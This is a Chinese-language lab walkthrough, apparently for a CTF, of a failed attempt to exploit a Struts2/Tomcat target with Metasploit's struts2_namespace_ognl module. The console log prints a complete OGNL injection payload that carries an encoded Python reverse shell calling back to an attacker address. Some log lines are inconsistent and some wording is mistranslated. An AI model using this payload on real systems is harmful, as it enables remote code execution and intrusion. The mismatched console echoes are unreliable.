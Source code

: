 [Metasploit(未注明)](https://metasploit.com/)附带了一个利用 Apache Tomcat v. 7.0.88 中的漏洞的模块( [Mo 等人，](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/struts2_namespace_ognl))。我试图配置并启动漏洞，但遇到了一些错误:

```
**└─$ sudo msfconsole** 

[... snip ...]**msf6 > search tomcat 7.0.88**[... snip ...] 0  exploit/multi/http/struts2_namespace_ognl  2018-08-22 [... snip ...]**msf6 > use exploit/multi/http/struts2_namespace_ognl**
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
**msf6 exploit(multi/http/struts2_namespace_ognl) > set RHOSTS toolsrus.thm**
RHOSTS => toolsrus.thm
**msf6 exploit(multi/http/struts2_namespace_ognl) > set RPORT 1234**
LPORT => 1234
**msf6 exploit(multi/http/struts2_namespace_ognl) > set LHOST attacker.thm**
LPORT => attacker.thm
**msf6 exploit(multi/http/struts2_namespace_ognl) > exploit**[*] Started reverse TCP handler on attacker.thm:4444 
[-] Bad OGNL request: ${(#_memberAccess['allowStaticMethodAccess']=true).(#p=new java.lang.ProcessBuilder({'sh','-c','echo exec\(__import__\(\'base64\'\).b64decode\(__import__\(\'codecs\'\).getencoder\(\'utf-8\'\)\(\'aW1wb3J0IHNvY2tldCx6bGliLGJhc2U2NCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzEwLjkuNi4xMzUnLDQ0NDQpKQoJCWJyZWFrCglleGNlcHQ6CgkJdGltZS5zbGVlcCg1KQpsPXN0cnVjdC51bnBhY2soJz5JJyxzLnJlY3YoNCkpWzBdCmQ9cy5yZWN2KGwpCndoaWxlIGxlbihkKTxsOgoJZCs9cy5yZWN2KGwtbGVuKGQpKQpleGVjKHpsaWIuZGVjb21wcmVzcyhiYXNlNjQuYjY0ZGVjb2RlKGQpKSx7J3MnOnN9KQo\=\'\)\[0\]\)\) | exec $(which python || which python3 || which python2) -'})).(#p.redirectErrorStream(true)).(#process=#p.start()).(#r=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#r)).(#r.flush())}
[-] Exploit aborted due to failure: bad-config: OGNL request cannot contain a '\'
[*] Exploit completed, but no session was created.
```

我在搜索引擎上查找了“Metasploit Bad request”，并找到了前面提到的 [Mo et al. (n.d.)](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/struts2_namespace_ognl) 关于该漏洞的文档。文档讨论了导致故障的代码片段:

```
# Snippet adapted from Mo et al. (n.d.)149:	    #   '\n' ends the GET request prematurely
150:	
151:	    bad_chars = %w[; \\ \r \n]    # and maybe '/'
152:	    bad_chars.each do |c|
153:	      if ognl.include? c
154:	        print_error("Bad OGNL request: #{ognl}")
155:	        fail_with(Failure::BadConfig, "OGNL request cannot contain a '#{c}'")
156:	      end
157:	    end
158:	
159:	    # The following list of characters *must* be encoded or ORNL will asplode
```

好吧。看起来角色`;`、`\\`、`\r`、`\n`和`/`必须使用某种编码才能让漏洞发挥作用。我尝试了一下模块的高级设置——比如将`EnableStageEncoding`和`EnableContextEncoding`都设置为`true`。我甚至编辑了`struts2_namespace_ognl.rb`模块，并删除了“坏字符”列表中的`\`字符，但即使是这种尝试也以同样的“广告 OGNL 请求”告终

我最终放弃了使用`struts2_namespace_ognl`模块，做了更多的研究，并尝试使用一个不同的利用模块，该模块使用了前面提到的凭证填充技术——这是由[“ranger cha”，(未标明)](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/tomcat_mgr_upload)设计的`tomcat_mgr_upload`。
